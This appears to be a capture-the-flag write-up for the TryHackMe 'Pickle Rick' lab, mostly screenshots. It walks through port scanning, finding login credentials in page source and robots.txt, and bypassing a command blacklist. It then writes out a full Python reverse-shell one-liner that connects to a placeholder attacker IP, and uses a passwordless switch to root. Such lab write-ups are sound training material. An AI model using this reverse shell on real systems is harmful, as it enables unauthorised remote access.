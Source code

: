 # PICKLE RICK CTF TRYHACKME

# RECON

'Nmap'
nmap -sV -A -T5 <MACHINE_IP>
-Open Ports-

![image](https://user-images.githubusercontent.com/82729808/190850518-7aac9130-039f-4e48-8334-44fa5885b6b4.png)

We got 22 and 80 ports open. Lets move to the web page.
In the source code of the page, we have a username

![image](https://user-images.githubusercontent.com/82729808/190850795-4be5e958-7fc4-47b2-a422-5b8a9be379c6.png)

' Gobuster '

 
 Lets look at /robots.txt
 
![image](https://user-images.githubusercontent.com/82729808/190850810-33210e0d-edf9-4579-9d35-e00ae0e92a98.png)

We have this text. And when we look at the login page we understand that its a password

![image](https://user-images.githubusercontent.com/82729808/190850862-700f1c30-6e25-4267-8e02-8c82f4fda116.png)

![image](https://user-images.githubusercontent.com/82729808/190850872-87a9b97d-ff3a-4eb2-9e18-87bfe3062ff9.png)

And we have a command panel. Lets list the files.

![image](https://user-images.githubusercontent.com/82729808/190850884-b388ab7b-e11e-4cea-9f46-ccdc599868e0.png)
 
 When we try to read the files, this happens
 
 ![image](https://user-images.githubusercontent.com/82729808/190850898-a30fb1c1-9b1f-4200-b1ce-53363604c6ae.png)
 
 ![image](https://user-images.githubusercontent.com/82729808/190850911-f0774c25-2fb8-4c05-9a72-27232af40b55.png)

So we have to be creative

![image](https://user-images.githubusercontent.com/82729808/190850911-f0774c25-2fb8-4c05-9a72-27232af40b55.png)

When we use grep and look at the source code, we can see de blacklisted commands
![image](https://user-images.githubusercontent.com/82729808/190850954-fa083d29-5156-4667-bf4b-ae61a1185666.png)

We can use grep again to read the files.

![image](https://user-images.githubusercontent.com/82729808/190851146-2b94f285-69ad-4bb8-8b95-d8cce05d002a.png)

And we've found the first question!

# Explotation

Now we need to get a reverse shell. To do this, we can test if machine has python with the command "python3 -c 'print("I have Python3!")'"

![image](https://user-images.githubusercontent.com/82729808/190851232-c3404331-2d87-45ac-9b88-9e52e441194d.png)

We have python3. Lets copy our reverse shell cheat sheet at  https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR_OPENVPN_IP>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Before we execute this script we have to start a nc listener.

![image](https://user-images.githubusercontent.com/82729808/190851300-b02a00eb-b643-4476-9644-01d4c14d47b7.png)

![image](https://user-images.githubusercontent.com/82729808/190851454-5cf448aa-8457-45fa-9547-25ff550a1fe3.png)

We have the shell!

Let's check out root privileges
![image](https://user-images.githubusercontent.com/82729808/190851481-f042ace0-e186-4f14-aab1-fb6dd635af5d.png)

We can see that we can switch to root account without a password
![image](https://user-images.githubusercontent.com/82729808/190851565-b0f22bb1-b5d2-4090-8ecd-35b408f0e9f7.png)

We have the 3rd ingredient in root directory and the second one in the home page of ricks account
![image](https://user-images.githubusercontent.com/82729808/190851602-e7871eec-6489-4ea3-9274-2c663a5bb20a.png)

# COMPLETED

